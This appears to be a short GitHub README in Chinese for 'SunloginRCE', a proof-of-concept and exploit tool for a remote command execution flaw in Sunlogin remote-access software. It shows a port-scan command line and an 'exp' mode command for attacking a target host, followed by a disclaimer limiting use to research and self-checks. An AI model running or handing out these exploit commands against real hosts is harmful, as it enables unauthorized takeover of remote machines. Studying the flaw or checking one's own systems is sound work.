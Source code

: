 # SunloginRCE

# 1.简介

Sunlogin 远程命令执行漏洞 POC&EXP

# 2.用法

```
SunloginRCE -h 192.168.3.222 -p 49664,49665,49666,49667,49668,49669,49674,49819,50246,25,110,135,139,44,5040,7680,7880  // 扫描模式，多个端口用,隔开
SunloginRCE -h 192.168.8.4:49819-m exp // EXP模式
```
![image](https://user-images.githubusercontent.com/108780847/180644358-dbfffe2b-e38a-49ea-8728-8ba96e8cd9c7.png)

# 3.免责声明

此工具仅用于学习、研究和自查。
不应用于非法目的，请遵守相关法律法规。
使用本工具产生的任何风险与本人无关！

